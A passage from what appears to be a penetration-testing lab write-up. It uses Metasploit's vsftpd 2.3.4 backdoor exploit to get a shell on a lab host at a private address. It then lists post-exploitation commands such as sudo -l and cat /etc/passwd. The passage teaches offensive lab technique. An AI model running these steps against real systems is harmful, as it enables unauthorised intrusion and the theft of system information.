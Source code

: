    0 auxiliary/dos/ftp/vsftpd_232 2011-02-03 normal Yes VSFTPD 2.3.2 Denial of Service

   1 exploit/unix/ftp/vsftpd_234_backdoor 2011-07-03 excellent No VSFTPD v2.3.4 Backdoor Command Execution

   Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

   ```

![[Pasted image 20250408094730.png]]

Then, we use the **vsftpd_234_backdoor** exploit to gain shell access:

   ```bash

   msf6 auxiliary(scanner/ftp/ftp_version) > use exploit/unix/ftp/vsftpd_234_backdoor

   [*] No payload configured, defaulting to cmd/unix/interact

   [-] Msf::OptionValidateError One or more options failed to validate: RHOSTS.

   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.74.162

   RHOSTS => 192.168.74.162

   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21

   RPORT => 21

   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

   ```

![[Pasted image 20250408094935.png]]

2. **Post-Exploitation After FTP Backdoor Access**: 

  After gaining shell access, we can perform various post-exploitation activities:

   ```bash

   # Check user and system information

   id

   whoami

   uname -a

   # Escalate privileges if needed

   sudo -l

   # Gather sensitive information

   cat /etc/passwd
